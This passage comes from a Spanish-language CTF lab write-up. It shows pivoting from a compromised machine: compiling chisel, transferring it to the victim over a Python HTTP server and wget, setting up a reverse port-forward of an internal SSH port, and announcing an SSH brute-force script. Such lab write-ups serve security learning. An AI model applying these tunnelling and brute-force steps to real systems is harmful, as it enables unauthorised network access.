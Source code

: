   Como vemos efectivamente tiene el puerto **22** abierto la otra maquina que está en el otro segmento de red así que lo que haremos sera un **pivoting** para saltar a la otra maquina para eso usaremos la herramienta **[chisel](https://github.com/jpillora/chisel)** para hacer un **Port Forwarding**.

  Para esto tienes que compilar el binario de **chisel** puede ser con la primer opción que es una compilación normal ó la segunda que es para reducir su peso sin afectar su funcionamiento:

  - go build .

    ó
  - go build -ldflags "-s  -w" .
  - upx burte chisel

  La forma en que yo me compartí el binario a la maquina victima fue mediante el uso de un simple server con **python** usando el comando:
  ```bash
  python3 -m http.simple 80
  ```
  Y desde la maquina victima usando **wget** aprovechando que en el **bash_history** se ve que esta disponibles en la maquina.
  El uso de chisel es simple, en nuestra maquina de atacante tenemos que ejecutarlo de la siguiente forma:
  ```bash
  ./chisel server --reverse -p 9090
  ```
  Esto es así ya que estamos indicando que queremos montar un server con la propia herramienta de chisel y el parámetro **- -reverse** es para permitir a los clientes especificar un port Forwarding inverso remoto además de las remotas normales y el **-p** sirve para indicar en que puerto local nuestro queremos hacer la tunelización.

  Ahora ya que especificamos esto en nuestra maquina vamos a la maquina victima e ingresamos los siguientes parámetros:

  ```bash
  ./chisel client [Your IP]]:9090 R:22:172.17.0.1:22
  ```
  Aquí estamos especificando que queremos que el chisel actué como cliente a nuestro equipo y por el puerto que configuramos previamente ***(puede ser cualquier puerto escogí esté por que me gusto)*** y con el parámetros **R:** indicamos que sea un remote port Forwarding por el puerto 22 de la maquina victima que es **172.17.0.1** a mi puerto 22.

  Si te preguntas porque no lo hacemos desde nuestra maquina pues es así por que desde nuestra maquina de atacante no tenemos acceso a ese segmento de red pero la maquina que ya comprometimos si lo tiene y lo pudimos verificar a la hora de hacer el host y port discovery con el script en bash que simplemente eran una peticiones **icmp**.

  Ahora ya que hicimos el **port Forwarding** con **chisel** lo podemos verificar con ```lsof -i:22``` y vemos que chisel esta ocupando el puerto **22** de nuestra maquina.

  <p align="center">
  <img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/THM/UbaketPie/intrusion/portf.png?raw=true">
  </p>

  Como vimos que en **bash_history** estaba entrado por **ssh** con el usuario **ramsey** nosotros también entraremos con ese usuario pero como no conocemos la contraseña haré un pequeño script en python para hacer fuerza bruta a el servicio **ssh**.
